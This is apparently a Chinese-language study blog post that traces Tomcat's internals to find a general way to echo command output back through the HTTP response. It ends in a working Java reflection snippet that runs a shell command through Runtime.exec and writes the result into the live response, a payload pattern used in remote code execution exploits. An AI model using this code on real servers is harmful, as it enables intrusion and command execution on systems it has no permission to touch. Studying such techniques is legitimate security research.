

[TOC]

# tomcat通用回显学习-2
> 在上一篇中， 学习了tomcat回显的第一种方法,说实话并不确定是否通用, 和`lucifaer`师傅的两种办法都不一致, 仅仅在测试环境中发现是可以回显的.  
> 本篇即学习`lucifaer`师傅文章[Tomcat通用回显学习](https://lucifaer.com/2020/05/12/Tomcat%E9%80%9A%E7%94%A8%E5%9B%9E%E6%98%BE%E5%AD%A6%E4%B9%A0/)中的其中一种方法, 
> 通过`global`变量获取`request`并回显数据


## 环境搭建
> 因为`springboot`的项目自带`tomcat`，所以使用的是`spring`项目. 其他的环境需要自己来配置了

1. `git clone https://github.com/itinypocket/spring-boot-study.git` 
2. 这里随便挑了`spring-boot-upload`
3. 在`UploadController`里添加一个函数
    ```java
    @GetMapping("/upload2")
    public String upload2() {
        String string = "123123";
        return "upload";
    }
    ```
4. 断点打在`String string="123123";` 这一行上
5. `Debug`模式运行
断点如下
<!--  -->


## 前期调试
> 在上一篇中, 我们在追踪`request`变量时，进入了`Connector`类， 同样，这里还是由该类开始, 之前的调试不再复述

在`AbstractProtol.java`类中, 可以下断点到`790`行，部分代码片段为
```java
if (processor == null) {
    processor = getProtocol().createProcessor();
    register(processor);
}

processor.setSslSupport(
	wrapper.getSslSupport(getProtocol().getClientCertProvider()));

// Associate the processor with the connection
connections.put(socket, processor);

SocketState state = SocketState.CLOSED;
do {
    state = processor.process(wrapper, status);
```
可以看到, 在`process==null`时， 会通过`getProtocol().createProcessor()`先创建, 并调用了`register`函数,
跟进`register`函数

```java
long count = registerCount.incrementAndGet();
RequestInfo rp =
    processor.getRequest().getRequestProcessor();
rp.setGlobalProcessor(global);
ObjectName rpName = new ObjectName(
	getProtocol().getDomain() +
	":type=RequestProcessor,worker="
	+ getProtocol().getName() +
	",name=" + getProtocol().getProtocolName() +
	"Request" + count);
if (getLog().isDebugEnabled()) {
    getLog().debug("Register " + rpName);
}
Registry.getRegistry(null, null).registerComponent(rp,
	rpName, null);
rp.setRpName(rpName);
```
可看到, `RequestInfo`变量作为`global` 的值进行了设置, 继续看一下`setGlobalProcessor`函数
```java
//RequestInfo.java
global.addRequestProcessor( this );
```
将`this`即`RequestInfo`对象添加到了`global`， 跳回`AbstractProtol`类，看一下`global`的声明
```java
    protected static class ConnectionHandler<S> implements AbstractEndpoint.Handler<S> {

        private final AbstractProtocol<S> proto;
        private final RequestGroupInfo global = new RequestGroupInfo();

```
可以看到 `global`对象为`RequestGroupInfo`类实例.
**于是现在的问题在于如何获取global, 即 `RequestGroupInfo`类**
而`global`又是 `AbstractProtocol#ConnectionHandler`类实例的一个变量, 所以调用链变成了
```
AbstractProtocol#ConnectionHandler ->
    global(RequestGroupInfo) ->
        RequestInfo ->
	   processor# Request ->
		Response

```

## 找到 `global`
由文章: [深入了解Tomcat的系统架构](https://zhuanlan.zhihu.com/p/39420883) 知道, 请由先由`Connector`获取, 经过`ProtocolHandler`处理完, 再交给`Processor`处理，最后返回。
所以由上一篇文章,  然后回到`Connector`寻找是否有`global`的变量




由上两张图可以看到, `connector`变量中存在着`getProtocolHandler`函数， 该函数的返回值中`handler`变量为`AbstractProtocol#ConnectionHandler`
于是调用链变成了
```
connector ->
    getProtocolHandler ->
        hanlder ->
            global -> 
              ...
```

## 找到`cononector`变量
同样由上篇`tomcat`架构的文章， 我们知道`connector`是由`service`服务来调用的, 而在
类`org.apache.catalina.connector.CoyoteAdapter`中, 
```java
connector.getService().getContainer().getPipeline().getFirst().invoke(
	request, response);
```
跟进`connector.getService`函数, 进入接口类`public interface Service extends Lifecycle`中, 利用idea的功能，找到其继承类`StandardService `

在`StandardService`类中, 可以看到
```java
    protected Connector connectors[] = new Connector[0];
    ....
    @Override
    public void addConnector(Connector connector) {
        ...
    }

    @Override
    protected void initInternal() throws LifecycleException {

        super.initInternal();
        ...
        // Initialize our defined Connectors
        synchronized (connectorsLock) {
            for (Connector connector : connectors) {
                try {
                    connector.init();
                } catch (Exception e) {
```

所以可以在`StandardService`中找到`connectors[]`数组, 遍历输出
整个调用链变成了
```
StandardService ->
    connector[] ->
        getProtocolHandler ->
            handler  ->
                golbal ->
                    RequestGroupInfo ->
                         .... 
```

## 实现
```java
    @GetMapping("/upload2")
    public String upload2() throws IOException, NoSuchFieldException, IllegalAccessException, NoSuchMethodException, InvocationTargetException {
        String string = "1231231";
        java.lang.reflect.Field contextField = org.apache.catalina.core.StandardContext.class.getDeclaredField("context");
        java.lang.reflect.Field serviceField = org.apache.catalina.core.ApplicationContext.class.getDeclaredField("service");
        java.lang.reflect.Field requestField = org.apache.coyote.RequestInfo.class.getDeclaredField("req");
        java.lang.reflect.Method getHandlerMethod = org.apache.coyote.AbstractProtocol.class.getDeclaredMethod("getHandler",null);
        contextField.setAccessible(true);
        serviceField.setAccessible(true);
        requestField.setAccessible(true);
        getHandlerMethod.setAccessible(true);
        org.apache.catalina.loader.WebappClassLoaderBase webappClassLoaderBase =
                (org.apache.catalina.loader.WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
        org.apache.catalina.core.ApplicationContext applicationContext = (org.apache.catalina.core.ApplicationContext) contextField.get(webappClassLoaderBase.getResources().getContext());
        org.apache.catalina.core.StandardService standardService = (org.apache.catalina.core.StandardService) serviceField.get(applicationContext);
        org.apache.catalina.connector.Connector[] connectors = standardService.findConnectors();
        for (int i=0;i<connectors.length;i++) {
            if (4==connectors[i].getScheme().length()) {
                org.apache.coyote.ProtocolHandler protocolHandler = connectors[i].getProtocolHandler();
                if (protocolHandler instanceof org.apache.coyote.http11.AbstractHttp11Protocol) {
                    Class[] classes = org.apache.coyote.AbstractProtocol.class.getDeclaredClasses();
                    for (int j = 0; j < classes.length; j++) {
                        if (52 == (classes[j].getName().length())||60 == (classes[j].getName().length())) {
                            System.out.println(classes[j].getName());
                            java.lang.reflect.Field globalField = classes[j].getDeclaredField("global");
                            java.lang.reflect.Field processorsField = org.apache.coyote.RequestGroupInfo.class.getDeclaredField("processors");
                            globalField.setAccessible(true);
                            processorsField.setAccessible(true);
                            org.apache.coyote.RequestGroupInfo requestGroupInfo = (org.apache.coyote.RequestGroupInfo) globalField.get(getHandlerMethod.invoke(protocolHandler,null));
                            java.util.List list = (java.util.List) processorsField.get(requestGroupInfo);
                            for (int k = 0; k < list.size(); k++) {
                                org.apache.coyote.Request tempRequest = (org.apache.coyote.Request) requestField.get(list.get(k));
                                System.out.println(tempRequest.getHeader("tomcat"));
                                org.apache.catalina.connector.Request request = (org.apache.catalina.connector.Request) tempRequest.getNote(1);
                                String cmd = "" + "ls" +"";
                                String[] cmds = !System.getProperty("os.name").toLowerCase().contains("win") ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                                java.io.InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                                java.util.Scanner s = new java.util.Scanner(in).useDelimiter("\\\\a");
                                String output = s.hasNext() ? s.next() : "";
                                java.io.Writer writer = request.getResponse().getWriter();
                                java.lang.reflect.Field usingWriter = request.getResponse().getClass().getDeclaredField("usingWriter");
                                usingWriter.setAccessible(true);
                                usingWriter.set(request.getResponse(), Boolean.FALSE);
                                writer.write(output);
                                writer.flush();
                                break;
                            }
                            break;
                        }
                    }
                }
                break;
            }
        }

        return "1234";
}

```


## 总结
在了解`tomcat`架构后, 对于`request`的调用， `processor`， `Connector`, `Service`等之间的调用更加清楚了, 
这里的每一次向上跟踪也不会搞的云里雾里的. 

主要是根据`lucifaer`的文章, 大佬真强!

## 参考
- [Tomcat通用回显学习](https://lucifaer.com/2020/05/12/Tomcat%E9%80%9A%E7%94%A8%E5%9B%9E%E6%98%BE%E5%AD%A6%E4%B9%A0/#2-2-1-%E8%8E%B7%E5%8F%96global)
- [深入了解Tomcat的系统架构](https://zhuanlan.zhihu.com/p/39420883)


## TODO
- 复现第三种办法, 即 `register`获取`request`


